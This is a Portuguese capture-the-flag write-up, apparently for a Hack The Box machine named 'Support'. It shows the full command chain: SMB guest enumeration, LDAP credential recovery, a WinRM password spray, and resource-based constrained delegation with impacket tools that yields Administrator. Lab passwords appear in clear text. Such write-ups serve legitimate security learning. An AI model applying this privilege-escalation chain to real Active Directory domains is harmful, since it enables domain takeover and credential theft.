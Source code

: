 
## Enumeracao

```
sudo nmap -sU -p 53,111,113,500,2049,161 support.htb
```

![[../../../media/Pasted image 20240609200955.png]]

```
sudo nmap -sS -p- -Pn -T5 --max-retries 0 support.htb
```

![](../../../media/Pasted%20image%2020240609201207.png)

Entao temos LDAP, DNS, Kerberos, RPC, SMB e WINRM.

### LDAP

```
ldapsearch -x -s base -H ldap://10.10.11.174
```

![](../../../media/Pasted%20image%2020240609201744.png)

### SMB

```
netexec smb 10.10.11.174 -u '' -p '' --shares
```


```
netexec smb 10.10.11.174 -u 'guest' -p '' --shares
```

![](../../../media/Pasted%20image%2020240609201929.png)

```
smbclient -U guest -N //10.10.11.174/support-tools
smbclient -U support.htb/guest -N //10.10.11.174/support-tools

#Este funcionou:
smbclient -U support.htb/guest //10.10.11.174/support-tools
```

```
smbclient -U guest //10.10.11.174/support-tools
```

![](../../../media/Pasted%20image%2020240609203329.png)

Como encontrei esses binários na máquina (inclusive o mais interessante seria o do UserInfo.exe) fui analisá-los na dnSpy e conseguimos obter a seguinte credencial:

![](../../../media/Pasted%20image%2020240611124450.png)

![](../../../media/Pasted%20image%2020240611124520.png)

Para obter a senha em texto claro, tive de refazer esse código em um compilador online:

![](../../../media/Pasted%20image%2020240611124621.png)

Agora tínhamos uma credencial:

```
usuário: ldap
senha: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Então presumi que as próximas enumerações seriam via LDAP. Dessa forma encontramos uma outra senha:

```
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

filtrando esse comando, ficou da seguinte forma:

```
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep info
```

![](../../../media/Pasted%20image%2020240611124949.png)

Fazendo o password spray, conseguimos obter mais um acesso:

```
netexec winrm 10.10.11.174 -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue
```

![](../../../media/Pasted%20image%2020240611125039.png)

Então temos mais uma credencial obtida:

```
usuário: support
senha: Ironside47pleasure40Watchful
```

Assim conseguimos acesso na máquina via winrm:

```
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```

![](../../../media/Pasted%20image%2020240611125204.png)
Rodando o bloodhound ainda com o usuário LDAP, notamos essa permissão perigosa:

![](../../../media/Pasted%20image%2020240611125601.png)


![](../../../media/Pasted%20image%2020240611125640.png)

Temos permissão de GenericAll no DC, então vamos tentar explorar isso fazendo uma conta de máquina e depois extraindo um ticket de serviço:

```
impacket-addcomputer -method LDAPS -computer-name 'redteam$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

Fiz algumas tentativas, porém não funcionaram, então testei de uma forma diferente ao final, e dessa vez funcionou:

![](../../../media/Pasted%20image%2020240611130010.png)

```
impacket-addcomputer -method SAMR -computer-name 'redteam$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```


Depois de algumas tentativas, o que funcionou foi:

```
impacket-rbcd -delegate-from 'redteam$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

![](../../../media/Pasted%20image%2020240611131451.png)

Depois fiz alguns testes para verificar se conseguia subir o privilégio no domínio:

```
impacket-getST -spn 'cifs/targetcomputer.testlab.local' -impersonate 'admin' 'domain/attackersystem$:Summer2018!'
```

mas o nome do usuário deve corresponder a algum já existente no domínio:

```
impacket-getST -spn 'cifs/dc.support.htb' -impersonate 'Administrator' -dc-ip 10.10.11.174 'support.htb/redteam$:Summer2018!'
```

![](../../../media/Pasted%20image%2020240611132230.png)

Dessa forma funcionou, depois é só passar o ticket:

![](../../../media/Pasted%20image%2020240611132251.png)

```
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-psexec -k -no-pass Administrator@dc.support.htb
```

